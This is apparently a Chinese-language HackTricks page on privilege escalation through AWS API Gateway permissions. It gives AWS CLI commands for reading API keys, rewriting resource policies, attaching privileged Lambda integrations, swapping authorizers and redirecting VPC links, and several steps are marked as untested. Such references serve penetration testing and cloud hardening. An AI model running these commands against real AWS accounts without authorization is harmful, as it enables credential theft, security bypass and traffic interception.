 # AWS - Apigateway提权

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## Apigateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

通过此权限，您可以生成配置的API的API密钥（按区域划分）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在影响：** 使用此技术无法进行权限提升，但可能可以访问敏感信息。

### `apigateway:GET`

通过此权限，您可以获取配置的 API（按区域）的生成的 API 密钥。
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在影响：** 使用这种技术无法进行权限提升，但可能会获得访问敏感信息的权限。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

通过这些权限，可以修改 API 的资源策略，以便自己可以调用它并滥用 API 网关可能具有的访问权限（例如调用一个存在漏洞的 Lambda 函数）。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在影响：**通常情况下，您无法直接使用此技术进行权限提升，但可能会获得对敏感信息的访问权限。

### `apigateway:PutIntegration`，`apigateway:CreateDeployment`，`iam:PassRole`

{% hint style="info" %}
需要测试
{% endhint %}

具有`apigateway:PutIntegration`，`apigateway:CreateDeployment`和`iam:PassRole`权限的攻击者可以**向现有的API Gateway REST API添加新的集成，该集成使用附加了IAM角色的Lambda函数**。然后，攻击者可以**触发Lambda函数以执行任意代码，并可能获得与IAM角色关联的资源的访问权限**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：访问与Lambda函数的IAM角色相关的资源。

### `apigateway:UpdateAuthorizer`，`apigateway:CreateDeployment`

{% hint style="info" %}
需要测试
{% endhint %}

具有`apigateway:UpdateAuthorizer`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的API Gateway授权程序**，以绕过安全检查或在进行API请求时执行任意代码。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：绕过安全检查，未经授权访问API资源。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
需要测试
{% endhint %}

拥有`apigateway:UpdateVpcLink`权限的攻击者可以**修改现有的VPC链接，将其指向不同的网络负载均衡器，从而可能将私有API流量重定向到未经授权或恶意资源**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在影响**：未经授权访问私有API资源，拦截或中断API流量。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载HackTricks的PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
